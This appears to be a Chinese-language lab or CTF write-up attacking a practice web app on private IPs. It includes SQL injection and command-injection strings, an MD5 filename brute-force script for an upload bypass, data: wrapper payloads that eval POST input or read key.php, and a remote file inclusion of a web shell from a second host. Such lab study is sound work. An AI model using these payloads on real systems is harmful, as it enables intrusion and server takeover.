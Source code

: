 ### SQL注入

```sql
admin"and 1=1 #
1
```

<img src="./assets/image-20241021140900775.png" alt="image-20241021140900775" style="zoom:33%;" />

<img src="./assets/image-20241021140915843.png" alt="image-20241021140915843" style="zoom:33%;" />

****

### 文件上传突破

<img src="./assets/image-20241021183412307.png" alt="image-20241021183412307" style="zoom:33%;" />

```py
import hashlib

# 文件全名
file_name = "sss.jpg"

# 存储所有生成的文件名
file_names = []

# 生成所有可能的文件名
for rand_num in range(1, 1001):
    # 生成 md5 哈希
    hash_input = f"{file_name}{rand_num}".encode()
    hash_object = hashlib.md5(hash_input)
    md5_hash = hash_object.hexdigest()

    # 生成文件名
    file_name_generated = f"{md5_hash}.jpg"
    file_names.append(file_name_generated)

# 打印所有生成的文件名
for name in file_names:
    print(name)

```

<img src="./assets/image-20241021165420541.png" alt="image-20241021165420541" style="zoom:33%;" />

- 拿去爆破

![image-20241021183435560](./assets/image-20241021183435560.png)

<img src="./assets/image-20241021183505787.png" alt="image-20241021183505787" style="zoom:33%;" />

![image-20241021183917815](./assets/image-20241021183917815.png)

****

### 远程命令执行

![image-20241021153721491](./assets/image-20241021153721491.png)

![image-20241021153738380](./assets/image-20241021153738380.png)

- 但是发现很多命令用不了

```
127.0.0.1 && dir >> 3.txt //可以写
127.0.0.1||whaomi	//非法
127.0.0.1&&whaomi	//能ping无回显
127.0.0.1|whoami	//非法
127.0.0.1&whoami	//非法
127.0.0.1 && ls >> 4.txt	//没写入
;127.0.0.1	//非法
```

- ![image-20241021200744083](./assets/image-20241021200744083.png)

- 检查源码

<img src="./assets/image-20241021200830422.png" alt="image-20241021200830422" style="zoom: 50%;" />

****

### XSS

- 没弹出什么有价值的



### 文件包含

- 伪协议:

```php
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20@eval($_POST[1]);?%3E //直接连
或者
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20system(%27cat%20/var/www/html/key.php%27);?%3E //查看源码
```

<img src="./assets/image-20241021193108076.png" alt="image-20241021193108076" style="zoom: 50%;" />

- 开一个9000端口

<img src="./assets/image-20241021164047702.png" alt="image-20241021164047702" style="zoom:33%;" />

- 远程文件包含,使用%23截断txt

  http://192.168.100.60:83/start/index.php?page=http://192.168.71.6:9000/shell_4.php%23

<img src="./assets/image-20241021164025449.png" alt="image-20241021164025449" style="zoom:33%;" />

![image-20241021164352297](./assets/image-20241021164352297.png)

